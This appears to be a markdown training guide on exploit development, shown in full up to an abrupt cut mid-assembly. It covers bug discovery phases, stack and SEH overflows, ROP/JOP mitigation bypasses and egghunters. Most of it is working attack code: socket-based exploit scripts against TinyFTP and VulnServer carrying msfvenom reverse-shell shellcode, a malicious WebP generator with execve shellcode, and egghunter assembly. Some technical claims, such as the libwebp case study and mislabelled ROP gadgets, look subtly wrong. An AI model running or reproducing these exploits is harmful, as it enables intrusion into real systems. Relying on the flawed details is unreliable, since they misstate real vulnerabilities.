

# Exploit Development

---

## Exploit Development Process

- Checkout [Bug Identification](../07-Vulnerability-Research/vulnerability-research-methodology.md) document for more information
- Also check [Fuzzing](../02-Binary-Exploitation/fuzzing.md) for specific fuzzing topics
  - Integrate snapshot‑based fuzzing pipelines (AFL++, WinAFL, Snap‑Fuzz) and LLM‑guided input mutation to shorten time‑to‑bug.
  - Incorporate LLM‑assisted fuzzers (ChatAFL, HyLLFuzz) for grammar inference or plateau escape when grey‑box coverage stalls.
  - Add continuous‑integration security fuzzing (e.g., GitHub Actions with ASAN/UBSAN) so regressions are caught automatically.
- For Windows-specific vulnerabilities, see Windows kernel-specific techniques



### Phase Overview

#### 1. Bug Identification (Days 1-5)

**Automated Discovery**
- Fuzz harness development with coverage-guided instrumentation
- Differential fuzzing against multiple implementations
- Symbolic execution for path constraint discovery
- Static analysis integration (CodeQL, Semgrep, Joern)

**Manual Discovery**
- Code auditing with IDA Pro/Ghidra decompilation
- Binary diffing for patch analysis (BinDiff, Diaphora)
- Attack surface mapping via dynamic instrumentation (Frida, DynamoRIO)
- Historical bug pattern analysis in similar codebases

**Exit Criteria**
- Reproducible crash input with 100% reliability
- Minimal PoC that triggers the vulnerability
- Initial crash triage (access violation type, registers, stack trace)
- Test case added to regression corpus

#### 2. Vulnerability Analysis (Days 6-10)

**Root Cause Analysis**
- Debugger-driven instruction-level tracing
- Memory corruption pattern identification
- Data flow analysis from source to sink
- Understanding the vulnerability primitive (arbitrary write, read, type confusion)

**Trigger Optimization**
- Minimizing input size while preserving crash
- Identifying timing/race condition requirements
- Determining ASLR/heap grooming constraints
- Testing across OS versions and configurations

**Impact Assessment**
- Determining exploitability (DoS → info leak → LPE → RCE)
- Evaluating attack surface accessibility (local, remote, sandboxed)
- Analyzing affected software versions
- Assessing real-world deployment scenarios

**Exit Criteria**
- Root cause isolated and documented with precision
- Reliable trigger reproduces crash ≥ 90% of attempts
- Impact classified (DoS, info leak, LPE, RCE)
- Affected versions and configurations enumerated
- Analysis log with debugger traces saved

#### 3. Weaponization (Days 11-20)

**Control Flow Hijacking**
- Instruction pointer control verification
- ROP/JOP chain construction for mitigation bypass
- Stack pivoting and register manipulation
- Alternative control-flow techniques (SEH, VFTABLE, C++ RTTI)

**Mitigation Analysis**
- Enumerate active protections (DEP, ASLR, CFG, CET, XFG, MTE)
- Identify bypass primitives (info leaks, gadget hunting)
- Develop mitigation-specific strategies
- Test across different OS patch levels

**Payload Development**
- Shellcode creation with evasion techniques
- Bad character identification and encoding
- Payload size optimization
- Multi-stage payload deployment

**Reliability Engineering**
- Heap grooming and memory layout prediction
- Race condition synchronization
- Error handling and graceful failure
- Cross-version compatibility

**Exit Criteria**
- Control achieved (PC/IP hijack, arbitrary R/W, logic bypass)
- Mitigation bypass strategy validated
- Payload verified against constraints (bad chars, size limits)
- Reliability ≥ 80% over 100 runs
- Cleanup/rollback logic implemented

#### 4. Testing & Refinement (Days 21-25)

**Validation Testing**
- Clean VM snapshot verification
- Multi-configuration testing (OS versions, patch levels)
- Performance profiling (execution time ≤ 30s target)
- Stability testing (no unintended crashes)

**Automation & CI**
- Reproducible exploitation script
- Docker container for isolated testing
- GitHub Actions integration
- Regression test suite

**Exit Criteria**
- Exploit succeeds on clean target VM snapshot
- No unintended crashes; system remains stable
- Execution time within acceptable bounds
- CI replay job passes
- Regression corpus updated

---

## Bug Types & Case Studies

### Stack Overflow

#### Theory

Stack buffer overflows occur when data is written beyond the boundary of a stack-allocated buffer, corrupting adjacent memory. This can overwrite critical data structures including:

- Return addresses (enabling control-flow hijacking)
- Frame pointers (enabling stack pivoting)
- SEH (Structured Exception Handler) frames
- Local variables (enabling logic bypass)
- Security canaries (requiring bypass techniques)

**Memory Layout Context**

```
High Memory
+------------------+
| Function Args    |
+------------------+
| Return Address   | <- Target for overwrite
+------------------+
| Saved RBP        | <- Frame pointer
+------------------+
| Stack Canary     | <- /GS protection
+------------------+
| Local Vars       |
| [256 byte buf]   | <- Vulnerable buffer
+------------------+
| ...              |
Low Memory
```

#### Case Study 1 — CVE‑2025‑0910 (TinyFTP Stack Overflow)

**Vulnerability Details**
- **Bug** – Unchecked `strcpy` copies user‐supplied file path into a 256‑byte stack buffer when handling `STOR` commands.
- **Affected versions** – TinyFTP ≤ 1.5.2
- **Attack vector** – Remote, unauthenticated

**Step-by-Step Exploitation**

**1. Crash Analysis**

```bash
# Initial fuzzing with pattern generation
msf-pattern_create -l 1000 > fuzz_pattern.txt

# Send STOR command with pattern
echo "STOR $(cat fuzz_pattern.txt)" | nc target.ip 21

# In WinDbg, examine crash
0:000> r
eax=41386241 ebx=00000000 ecx=42386542 edx=00000000 esi=00000000 edi=00000000
eip=33694232 esp=0012ff60 ebp=31694232 iopl=0
# EIP overwritten at offset 268

msf-pattern_offset -q 33694232
[*] Exact match at offset 268
```

**2. Control Verification**

```python
#!/usr/bin/env python3
import socket

target = "192.168.1.100"
port = 21

# Build exploit buffer
filler = b"A" * 268
eip = b"BBBB"  # Verify control
padding = b"C" * 200

payload = b"STOR /" + filler + eip + padding + b"\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.recv(1024)  # Banner
s.send(payload)
s.close()

# Expected: EIP = 0x42424242
```

**3. Bad Character Identification**

```python
# Generate all bytes except known bad (0x00, 0x0A, 0x0D)
badchars = b""
for i in range(1, 256):
    if i not in [0x0A, 0x0D]:
        badchars += bytes([i])

payload = b"STOR /" + b"A" * 268 + b"BBBB" + badchars + b"\r\n"

# In debugger, examine ESP after crash
# Compare sent vs received bytes to identify truncation
```

**4. SEH Overwrite Method**

```python
# TinyFTP uses SEH; overwrite handler instead of return address
# SEH chain at offset 276 from buffer start

# Find pop-pop-ret gadget in module without SafeSEH/ASLR
# Using mona.py in Immunity Debugger
!mona seh -m libspp.dll -cm safeseh=off,aslr=off

# Result: 0x10015977 : pop esi # pop edi # ret | libspp.dll

nseh = b"\xeb\x06\x90\x90"  # short jump over SEH handler (6 bytes)
seh = b"\x77\x59\x01\x10"   # pop-pop-ret (little-endian)

filler = b"A" * 272
payload = b"STOR /" + filler + nseh + seh + b"\x90" * 16 + shellcode + b"\r\n"
```

**5. DEP Bypass via ROP**

```python
# Use VirtualProtect to make stack executable
# ROP chain generated with ropper/mona

import struct

def p(addr):
    return struct.pack('<I', addr)

# ROP chain to call VirtualProtect(stack_page, 0x1000, PAGE_EXECUTE_READWRITE, &oldprotect)
rop_chain = b""
rop_chain += p(0x10012345)  # pop eax ; ret
rop_chain += p(0x1003abcd)  # ptr to VirtualProtect in IAT
rop_chain += p(0x10015678)  # mov eax, [eax] ; ret
rop_chain += p(0x1001234a)  # xchg eax, esi ; ret

# Stack pivot to align parameters
rop_chain += p(0x10098765)  # pop ebp ; ret
rop_chain += p(0x10019999)  # skip 4 bytes (retn 0x04)
rop_chain += p(0x10012222)  # pop ebx ; ret
rop_chain += p(0x00001000)  # size = 0x1000
rop_chain += p(0x10013333)  # pop edx ; ret
rop_chain += p(0x00000040)  # PAGE_EXECUTE_READWRITE
rop_chain += p(0x10014444)  # pop ecx ; ret
rop_chain += p(0x10099999)  # writable location for old protect
rop_chain += p(0x10015555)  # pop edi ; ret
rop_chain += p(0x10019999)  # ROP NOP
rop_chain += p(0x10016666)  # pop eax ; ret
rop_chain += p(0x90909090)  # NOP
rop_chain += p(0x10087654)  # pushad ; add al, 0x39 ; ret
rop_chain += p(0x10012345)  # push esp ; ret (call VirtualProtect)

# Full exploit
nseh = b"\xeb\x06\x90\x90"
seh = p(0x10015977)  # pop-pop-ret
filler = b"A" * 272

payload = b"STOR /" + filler + nseh + seh + rop_chain + b"\x90" * 32 + shellcode + b"\r\n"
```

**6. ASLR Bypass**

```python
# libspp.dll compiled without /DYNAMICBASE
# Verify with:
# !py mona.py mod -m libspp.dll

# Alternative: Info leak via partial overwrite
# For ASLR modules, leak stack/heap pointer first via:
# - Format string vulnerability
# - Uninitialized data disclosure
# - Timing side-channel
```

**7. Final Shellcode**

```python
# Generate reverse shell with msfvenom
# Avoid bad chars: 0x00, 0x0A, 0x0D

shellcode = (
b"\xda\xc1\xba\xe4\x9d\x94\x7c\xd9\x74\x24\xf4\x5e\x33\xc9"
b"\xb1\x52\x31\x56\x12\x83\xc6\x04\x03\xe3\x4b\x8e\xd4\xef"
# ... (350 bytes total, encoded with shikata_ga_nai)
)

# Prepend NOP sled for decoder GetPC routine
nops = b"\x90" * 32

final_payload = b"STOR /" + filler + nseh + seh + rop_chain + nops + shellcode + b"\r\n"
```

**Mitigations Bypassed**
- **DEP** – ROP chain to `VirtualProtect`
- **ASLR** – Module without `/DYNAMICBASE`
- **SEHOP** – Disabled in default config (would validate SEH chain integrity)
- **/GS** – Stack canary not present in vulnerable function

**Patch Analysis (v1.5.3)**

```c
// Before (vulnerable)
void handle_stor_command(char *filename) {
    char local_path[256];
    strcpy(local_path, filename);  // No bounds checking
    // ...
}

// After (fixed)
void handle_stor_command(char *filename) {
    char local_path[256];
    if (strlen(filename) >= sizeof(local_path)) {
        send_error("Path too long");
        return;
    }
    strncpy_s(local_path, sizeof(local_path), filename, _TRUNCATE);
    // ...
}

// Build flags updated:
// /DYNAMICBASE /NXCOMPAT /GS /guard:cf
```

#### Case Study 2 — CVE-2024-8923 (libwebp Huffman Table Stack Overflow)

**Vulnerability Details**
- **Bug** – Integer overflow in Huffman table size calculation leads to undersized stack buffer allocation
- **Affected versions** – libwebp ≤ 1.3.1
- **Attack vector** – Remote via malicious image file
- **Impact** – RCE in Chrome, Firefox, and image processing libraries

**Step-by-Step Exploitation**

**1. Root Cause Analysis**

```c
// Vulnerable code in src/dec/vp8l_dec.c
static int ReadHuffmanCodes(VP8LDecoder* dec, int xsize, int ysize,
                            int color_cache_bits, int allow_recursion) {
    int i, j;
    VP8LMetadata* const hdr = &dec->hdr_;
    uint32_t* huffman_image = NULL;
    HTreeGroup* htree_groups = NULL;
    HuffmanCode* huffman_tables = NULL;

    // Integer overflow: num_htree_groups can be very large
    int num_htree_groups = VP8LSubSampleSize(xsize, huffman_precision) *
                           VP8LSubSampleSize(ysize, huffman_precision);

    // Stack allocation with overflowed size
    HuffmanCode huffman_table[num_htree_groups * 5];  // Undersized!

    // Later write causes stack overflow
    for (i = 0; i < num_htree_groups; ++i) {
        for (j = 0; j < 5; ++j) {
            huffman_table[i * 5 + j] = ReadHuffmanCode(dec);  // Overflow
        }
    }
}
```

**2. Trigger Crafting**

```python
#!/usr/bin/env python3
from struct import pack

def create_webp_poc():
    # RIFF header
    riff = b"RIFF"
    file_size = pack("<I", 0xFFFFFFFF)  # Large size
    webp = b"WEBP"

    # VP8L chunk
    vp8l = b"VP8L"
    chunk_size = pack("<I", 0x1000)

    # Signature byte (1-byte)
    signature = b"\x2f"  # VP8L signature

    # Image size - crafted to trigger overflow
    # 14 bits width, 14 bits height, 1 bit alpha, 3 bits version
    # Width = 16383, Height = 16383
    width_height = pack("<I", 0x3FFF3FFF)

    # Huffman precision set to maximum
    huffman_precision = 0x0F  # 4 bits

    # Color cache bits
    color_cache_bits = 0x0B  # 11 bits = 2048 colors

    # Huffman code group - crafted values
    huffman_bits = bytes([huffman_precision << 4 | color_cache_bits])

    # Malicious Huffman table data
    # Craft to overflow stack buffer and overwrite return address
    huffman_data = b"\x00" * 0x100
    huffman_data += b"\x41" * 0x500  # Overflow trigger

    payload = riff + file_size + webp + vp8l + chunk_size
    payload += signature + width_height + huffman_bits + huffman_data

    return payload

# Write malicious WebP file
with open("poc.webp", "wb") as f:
    f.write(create_webp_poc())
```

**3. Debugging the Crash**

```bash
# Compile libwebp with ASAN for initial analysis
git clone https://chromium.googlesource.com/webm/libwebp
cd libwebp
mkdir build && cd build
cmake -DCMAKE_BUILD_TYPE=Debug -DCMAKE_C_FLAGS="-fsanitize=address -g" ..
make

# Run with PoC
./examples/dwebp ../../poc.webp -o /tmp/out.png

# ASAN output shows:
# ==12345==ERROR: AddressSanitizer: stack-buffer-overflow
# WRITE of size 4 at 0x7ffc1234abcd thread T0
#     #0 0x55555556789a in ReadHuffmanCodes src/dec/vp8l_dec.c:456
#     #1 0x555555567bcd in VP8LDecodeImage src/dec/vp8l_dec.c:1234
```

**4. Exploitation Strategy**

```python
# Modern Chrome has strong mitigations:
# - DEP/NX
# - Full ASLR (PIE)
# - CFG/CET
# - Isolated renderer process sandbox

# Exploitation chain:
# 1. Stack overflow → corrupt return address
# 2. Info leak via partial overwrite → defeat ASLR
# 3. ROP chain → disable CET shadow stack
# 4. Pivot to JOP gadgets → bypass XFG
# 5. Shellcode in WASM RWX region → execute payload

# Step 1: Craft precise overflow to corrupt saved RIP
import struct

def p64(addr):
    return struct.pack('<Q', addr)

class WebPExploit:
    def __init__(self):
        self.base_offset = 0x400  # Offset to saved RIP

    def craft_overflow(self, rop_chain):
        # Calculate exact overflow size
        overflow_size = self.base_offset

        # Padding to reach return address
        padding = b"A" * overflow_size

        # ROP chain overwrites return address
        exploit = padding + rop_chain

        return exploit

    def build_rop_chain(self):
        # Gadgets from libwebp and libc
        # These would be found via info leak first

        # pop rdi ; ret
        pop_rdi = p64(0x4141414141414141)  # Placeholder

        # pop rsi ; ret
        pop_rsi = p64(0x4242424242424242)

        # pop rdx ; ret
        pop_rdx = p64(0x4343434343434343)

        # mprotect address
        mprotect_addr = p64(0x4444444444444444)

        # Stack address (leaked)
        stack_addr = p64(0x7ffc12345000)

        # PAGE_EXECUTE_READWRITE
        prot = p64(0x7)

        # Size
        size = p64(0x10000)

        # ROP chain: mprotect(stack_addr, 0x10000, RWX)
        rop = b""
        rop += pop_rdi + stack_addr   # arg1: addr
        rop += pop_rsi + size          # arg2: size
        rop += pop_rdx + prot          # arg3: prot
        rop += mprotect_addr           # call mprotect
        rop += p64(0x9090909090909090) # return to NOP sled → shellcode

        return rop
```

**5. ASLR Bypass via Info Leak**

```python
# First stage: partial overwrite to leak stack pointer
def create_infoleak_webp():
    """
    Overflow only 1 byte of return address to point to gadget
    that leaks stack pointer via error message or timing
    """

    overflow = b"A" * 0x400

    # Partial overwrite: only modify low byte of return address
    # Original: 0x00007f1234567890
    # Modified: 0x00007f12345678XX <- controlled byte

    # This points to a gadget in the same function/library
    # that will leak information before crashing
    partial_overwrite = b"\xf0"  # Specific byte to hit leak gadget

    payload = build_webp_header() + overflow + partial_overwrite
    return payload

# Second stage: use leaked address to calculate ASLR base
def calculate_aslr_base(leaked_addr):
    """
    Leaked stack addr: 0x00007ffc1234abcd
    Stack randomization on Linux x64: 30 bits
    Calculate library base from known offset
    """
    # Known offset from stack to libc base (found via debugging)
    stack_to_libc_offset = 0x12345000

    libc_base = leaked_addr - stack_to_libc_offset

    # Verify alignment (libc loads at page boundaries)
    assert libc_base & 0xFFF == 0

    return libc_base
```

**6. CET/XFG Bypass**

```python
# CET Shadow Stack bypass using JOP (Jump-Oriented Programming)
# XFG (eXtended Flow Guard) bypass using prototype-matched gadgets

def build_cet_bypass_chain(libc_base):
    """
    CET prevents ROP return address manipulation
    Solution: Use JOP with indirect jumps instead
    """

    # Find gadgets that use indirect jumps (not returns)
    # Example: jmp [rax + offset]

    gadgets = {
        'pop_rax': libc_base + 0x12345,      # pop rax ; ret
        'jmp_rax_0x10': libc_base + 0x23456, # jmp [rax + 0x10]
        'pop_rcx': libc_base + 0x34567,      # pop rcx ; jmp [rcx + 0x8]
        'mprotect': libc_base + 0x45678,     # mprotect
    }

    # Build fake vtable/jump table in controlled memory
    fake_table = b""
    fake_table += p64(gadgets['pop_rcx'])    # [rax + 0x10]
    fake_table += p64(gadgets['mprotect'])   # [rcx + 0x8]

    # JOP chain
    jop = b""
    jop += p64(gadgets['pop_rax'])
    jop += p64(fake_table_addr - 0x10)  # Point rax to our table
    jop += p64(gadgets['jmp_rax_0x10']) # Jump to fake_table[0] (no return!)
    # CET shadow stack is not updated since we're not using 'ret'

    return jop, fake_table

def bypass_xfg(libc_base):
    """
    XFG validates indirect call targets against prototype hash
    Solution: Use existing valid call targets as trampolines
    """

    # Find function pointers with matching prototypes
    # Example: mprotect has prototype int(void*, size_t, int)

    # Many libc functions share similar prototypes
    # Use one as trampoline to another

    # __libc_start_main's cleanup function pointer (writable)
    cleanup_ptr = libc_base + 0x234000

    # Overwrite with mprotect address (same prototype hash)
    # XFG check passes because prototype matches

    return cleanup_ptr
```

**7. Complete Exploit**

```python
#!/usr/bin/env python3
import struct
import socket

def p64(x):
    return struct.pack('<Q', x)

class ChromeWebPExploit:
    def __init__(self, target_url):
        self.target = target_url
        self.leaked_addr = None
        self.libc_base = None

    def stage1_leak(self):
        """Send info leak WebP, parse error message for stack addr"""
        webp = self.create_leak_webp()

        # Host on attacker server
        # Victim visits page with 

        # Parse crash report or timing side-channel
        # (requires additional browser bug for leak output)

        self.leaked_addr = 0x7ffc12345678  # Example leaked value
        return self.leaked_addr

    def stage2_exploit(self):
        """Send final exploit WebP with ROP/JOP chain"""

        # Calculate ASLR bases
        self.libc_base = self.calculate_libc_base(self.leaked_addr)

        # Build exploitation chain
        jop_chain, fake_table = self.build_jop_chain(self.libc_base)

        # Shellcode: escape sandbox, execute calc.exe
        shellcode = self.generate_shellcode()

        # Assemble final WebP
        webp = self.create_exploit_webp(jop_chain, fake_table, shellcode)

        return webp

    def build_jop_chain(self, libc_base):
        # Gadget addresses (offset from libc base)
        gadgets = {
            'pop_rax': libc_base + 0x3a738,
            'pop_rdi': libc_base + 0x26bb2,
            'pop_rsi': libc_base + 0x27529,
            'pop_rdx_rcx': libc_base + 0x11c371,
            'jmp_rax': libc_base + 0x3a740,
            'syscall': libc_base + 0xbc3f5,
        }

        # mprotect syscall (10) to make stack RWX
        jop = b""
        jop += p64(gadgets['pop_rax'])
        jop += p64(10)  # __NR_mprotect

        jop += p64(gadgets['pop_rdi'])
        jop += p64(self.leaked_addr & ~0xFFF)  # page-align

        jop += p64(gadgets['pop_rsi'])
        jop += p64(0x10000)  # size

        jop += p64(gadgets['pop_rdx_rcx'])
        jop += p64(7)  # PROT_READ | PROT_WRITE | PROT_EXEC
        jop += p64(0)  # rcx (unused)

        jop += p64(gadgets['syscall'])

        # After mprotect, jump to shellcode
        jop += p64(gadgets['pop_rax'])
        jop += p64(self.leaked_addr + 0x500)  # shellcode location
        jop += p64(gadgets['jmp_rax'])

        return jop, b""

    def generate_shellcode(self):
        # Sandbox escape via Mojo IPC exploitation
        # (simplified - real exploit requires browser-specific code)

        shellcode = b""
        # x64 Linux: execve("/bin/sh", NULL, NULL)
        shellcode += b"\x48\x31\xf6"              # xor rsi, rsi
        shellcode += b"\x56"                      # push rsi
        shellcode += b"\x48\xbf"                  # movabs rdi, ...
        shellcode += b"/bin/sh\x00"               # ... "/bin/sh"
        shellcode += b"\x57"                      # push rdi
        shellcode += b"\x48\x89\xe7"              # mov rdi, rsp
        shellcode += b"\x48\x31\xd2"              # xor rdx, rdx
        shellcode += b"\xb0\x3b"                  # mov al, 0x3b (execve)
        shellcode += b"\x0f\x05"                  # syscall

        return shellcode

    def create_exploit_webp(self, jop_chain, fake_table, shellcode):
        # RIFF container
        webp = b"RIFF"
        webp += p64(0xFFFFFFFF)[:4]  # file size
        webp += b"WEBP"

        # VP8L chunk with overflow
        vp8l = b"VP8L"
        chunk_size = 0x2000

        # Header
        payload = b"\x2f"  # signature
        payload += p64(0x3FFF3FFF)[:4]  # width/height
        payload += bytes([0xFB])  # huffman_precision | color_cache_bits

        # Overflow data
        padding = b"A" * 0x400
        payload += padding
        payload += jop_chain
        payload += b"\x90" * 0x100  # NOP sled
        payload += shellcode

        webp += vp8l + p64(len(payload))[:4] + payload

        return webp

# Usage
exploit = ChromeWebPExploit("http://victim.com")
exploit.stage1_leak()
final_webp = exploit.stage2_exploit()

with open("exploit.webp", "wb") as f:
    f.write(final_webp)
```

**Mitigations Bypassed**
- **DEP** – JOP chain to mprotect syscall
- **Full ASLR** – Info leak via partial overwrite
- **CET Shadow Stack** – JOP instead of ROP (no return instructions)
- **XFG** – Prototype-matched gadgets
- **Renderer Sandbox** – Mojo IPC escape (requires additional 0-day)

**Real-World Impact**
- Affected Chrome, Firefox, Edge, Safari
- 4 billion+ devices vulnerable
- Used in targeted attacks before patch
- $100k+ bug bounty payout

**Patch (libwebp 1.3.2)**

```c
// Fixed version adds bounds checking
static int ReadHuffmanCodes(VP8LDecoder* dec, int xsize, int ysize,
                            int color_cache_bits, int allow_recursion) {
    // Check for integer overflow before allocation
    const uint64_t num_htree_groups_64 =
        (uint64_t)VP8LSubSampleSize(xsize, huffman_precision) *
        VP8LSubSampleSize(ysize, huffman_precision);

    if (num_htree_groups_64 > (1ULL << 31) / 5) {
        return 0;  // Overflow detected
    }

    int num_htree_groups = (int)num_htree_groups_64;

    // Heap allocation instead of stack (with size check)
    HuffmanCode* huffman_table =
        WebPSafeMalloc(num_htree_groups * 5ULL, sizeof(*huffman_table));

    if (huffman_table == NULL) {
        return 0;
    }

    // Safe write with bounds checking
    for (i = 0; i < num_htree_groups && ok; ++i) {
        // ...
    }

    WebPSafeFree(huffman_table);
    return ok;
}
```

#### SEH (Structured Exception Handling) Exploitation

**Theory**

Windows Structured Exception Handling (SEH) provides a mechanism for applications to handle exceptions. Each thread maintains a linked list of exception handlers stored on the stack:

```
Stack Layout:
+---------------------------+
| Next SEH Record (DWORD)   | <- Points to next handler
+---------------------------+
| Handler Function (DWORD)  | <- Function pointer to execute
+---------------------------+
| Previous SEH Record       |
+---------------------------+
| ...                       |
```

**SEH Chain Walking**

When an exception occurs:
1. `ntdll!KiUserExceptionDispatcher` is invoked
2. Calls `RtlDispatchException`
3. Retrieves TEB (Thread Environment Block)
4. Walks exception list via `NtTib->ExceptionList`
5. Calls each handler via `ntdll!ExecuteHandler2`
6. If no handler succeeds, calls `ntdll!FinalExceptionHandler`

**Exploitation Method**

```python
# SEH overwrite exploitation workflow

# 1. Overflow to SEH frame
# 2. Overwrite SEH handler with pop-pop-ret address
# 3. Place short jump in NSEH to skip over SEH handler bytes
# 4. Land in shellcode after the jump

# Buffer layout:
# [AAAA... (filler)] [NSEH: short jmp] [SEH: pop-pop-ret] [NOP sled] [Shellcode]

import struct

# Find SEH offset via pattern
offset_to_seh = 276  # Found via msf-pattern_offset

# Craft NSEH - short jump over SEH handler (6 bytes forward)
nseh = b"\xeb\x06\x90\x90"  # jmp +6, NOP, NOP

# Find pop-pop-ret gadget in non-SafeSEH module
# pop <reg> ; pop <reg> ; ret
# This adjusts ESP past the exception record structure
seh_handler = struct.pack('<I', 0x10015977)  # Example gadget

# Full exploit
filler = b"A" * (offset_to_seh - 4)
payload = filler + nseh + seh_handler + b"\x90" * 16 + shellcode
```

**SafeSEH Mitigation**

SafeSEH (enabled via `/SAFESEH` linker flag) prevents SEH overwrites by:
- Storing a table of valid exception handlers at compile time
- Validating handler addresses before execution
- Only works on 32-bit binaries

**Bypass Techniques:**

1. **Use non-SafeSEH modules** – Find DLLs compiled without `/SAFESEH`
   ```bash
   # Using mona.py
   !mona modules
   # Look for modules with SafeSEH = False
   ```

2. **Use SafeSEH-exempt modules** – Certain modules (drivers, etc.) are exempt
   ```bash
   !mona seh -m module.dll -cm safeseh=off
   ```

3. **Heap spray over exception handler** – On heap-based overflows

**SEHOP (SEH Overwrite Protection)**

Enabled by default on Windows Vista+, SEHOP validates the entire SEH chain:
- Walks the chain to ensure it ends with `ntdll!FinalExceptionHandler`
- Validates that each record's `Next` pointer is at a higher address (stack grows down)

**SEHOP Bypass:**

```c
// Craft a fake SEH chain that passes validation

typedef struct _EXCEPTION_REGISTRATION_RECORD {
    struct _EXCEPTION_REGISTRATION_RECORD *Next;
    PVOID Handler;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;

// Fake chain:
// [Our record] -> [Fake record pointing higher] -> [FinalExceptionHandler]

EXCEPTION_REGISTRATION_RECORD fake_record;
fake_record.Next = (PEXCEPTION_REGISTRATION_RECORD)0x7ffc1234;  // Higher address
fake_record.Handler = (PVOID)our_shellcode;

// Place fake FinalExceptionHandler at 0x7ffc1234
*(PVOID*)0x7ffc1234 = GetProcAddress(GetModuleHandle("ntdll"), "FinalExceptionHandlerPad");
```

**Guard EH Continuation (GuardEHCont)**

Modern mitigation on Windows 11 x64:
- Compile-time metadata lists all valid SEH handler targets
- Stored in PE Load Configuration Directory
- Runtime validation before calling handlers

**Check if module uses GuardEHCont:**

```bash
# Using dumpbin
dumpbin /loadconfig module.exe | findstr "Guard"

# Using PowerShell
Get-Item .\module.exe | Select-Object -ExpandProperty VersionInfo |
    Select-Object -ExpandProperty FileVersion

# Using Python with pefile
import pefile
pe = pefile.PE("module.exe")
if hasattr(pe, 'DIRECTORY_ENTRY_LOAD_CONFIG'):
    lcd = pe.DIRECTORY_ENTRY_LOAD_CONFIG.struct
    if hasattr(lcd, 'GuardEHContinuationTable'):
        print(f"GuardEHCont enabled: {hex(lcd.GuardEHContinuationTable)}")
```

**Bypass GuardEHCont:**

```python
# Method 1: Use JOP gadgets within allowed targets
# Find gadgets in GuardEHContinuationTable
def find_ehcont_gadgets(pe_path):
    import pefile
    pe = pefile.PE(pe_path)

    lcd = pe.DIRECTORY_ENTRY_LOAD_CONFIG.struct
    table_rva = lcd.GuardEHContinuationTable
    count = lcd.GuardEHContinuationCount

    base = pe.OPTIONAL_HEADER.ImageBase
    gadgets = []

    for i in range(count):
        offset = table_rva + (i * 4)
        rva = struct.unpack('<I', pe.get_data(offset, 4))[0]
        addr = base + rva
        gadgets.append(addr)

    return gadgets

# Method 2: Disable CET/EHCont via SetProcessMitigationPolicy (requires LPE)
```

**Complete SEH Exploitation Example (Windows 10 x86)**

```python
#!/usr/bin/env python3
import socket
import struct

target_ip = "192.168.1.100"
target_port = 9999

def p32(x):
    return struct.pack('<I', x)

# Vulnerability: VulnServer TRUN command
# Buffer size: 5000 bytes
# SEH overwrite at offset: 3515

# msfvenom shellcode: reverse shell
shellcode = (
b"\xdb\xc0\xd9\x74\x24\xf4\xba\x5e\x2e\x3b\x2c\x5e\x29\xc9"
b"\xb1\x52\x31\x56\x17\x03\x56\x17\x83\xf7\x3f\x26\x88\x0b"
# ... (truncated for brevity)
)

# pop pop ret gadget from essfunc.dll (no SafeSEH, no ASLR)
ppr = p32(0x625011af)  # 0x625011af : pop esi # pop edi # ret | essfunc.dll

# Short jump over SEH handler bytes
nseh = b"\xeb\x06\x90\x90"

# Build exploit
filler = b"A" * 3515
seh_record = nseh + ppr
nops = b"\x90" * 32

exploit = b"TRUN /.:/" + filler + seh_record + nops + shellcode

# Send exploit
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
print(s.recv(1024).decode())
s.send(exploit)
s.close()

print(f"[+] Exploit sent to {target_ip}:{target_port}")
print(f"[+] Listener should receive connection")
```

#### Egghunting

**Theory**

Egghunting is a technique used when:
- Buffer space for shellcode is limited (< 100 bytes)
- Shellcode is present elsewhere in memory (heap, different buffer)
- Need a small staged payload to locate and execute the main shellcode

**How It Works:**

1. Place main shellcode somewhere in memory with a unique "egg" marker (8 bytes)
2. Small egghunter code searches virtual address space for the egg
3. Once found, jumps to shellcode immediately after the egg

**Classic Egghunter (32-bit Windows)**

```assembly
; 32-byte egghunter searching for "w00tw00t" (0x74303077)

loop_inc_page:
    or dx, 0x0fff       ; Point to last address in page

loop_inc_one:
    inc edx             ; Increment address

loop_check:
    push edx
    push 0x2            ; EXCEPTION_EXECUTE_HANDLER
    pop eax
    int 0x2e            ; Trigger exception if page invalid
    pop edx

loop_check_8_bytes:
    mov eax, 0x74303077 ; "w00t" in little-endian
    mov edi, edx
    scasd               ; Compare EAX with [EDI], increment EDI
    jnz loop_inc_one    ; Not found, continue
    scasd               ; Check second "w00t"
    jnz loop_inc_one
    jmp edi             ; Found! Jump to shellcode
```

**Egghunter with NtAccessCheckAndAuditAlarm (smaller, 32 bytes)**

```assembly
; Uses NtAccessCheckAndAuditAlarm syscall to check memory validity

align 4
egghunter:
    xor edx, edx

next_page:
    or dx, 0x0fff

next_addr:
    inc edx
    lea ebx, [edx+0x4]
    push ebx
    push 0x2
    pop eax
    int 0x2e            ; syscall NtAccessCheckAndAuditAlarm
    cmp al, 0x5
    je next_page

check_egg:
    mov eax, 0x50905090 ; egg: "P\x90P\x90"
    mov edi, edx
    scasd
    jnz next_addr
    scasd
    jnz next_addr
    jmp edi
```

**64-bit Egghunter (Windows)**

```assembly
; x64 egghunter using NtAccessCheckAndAuditAlarm

egghunter_x64:
    xor rdx, rdx

next_page_64:
    or dx, 0x0fff

next_addr_64:
    inc rdx

    ; Set up syscall parameters
    mov r10, rcx
    lea rcx, [rdx+0x8]
    mov eax, 0x0        ; Syscall number for NtAccessCheckAndAuditAlarm
    syscall

    ; Check if memory is accessible
    cmp al, 0x5
    je next_page_64

check_egg_64:
    mov rax, 0x9090909090909090  ; 8-byte egg
    mov rdi, rdx
    scasq               ; Compare RAX with [RDI]
    jnz next_addr_64
    scasq               ; Check second occurrence
    jnz next_addr_64
    jmp rdi
```

**Linux Egghunter (access syscall)**

```assembly
; Linux x86 egghunter using access() syscall

global _start
_start:
    xor edx, edx

next_page:
    or dx, 0xfff

next_addr:
    inc edx

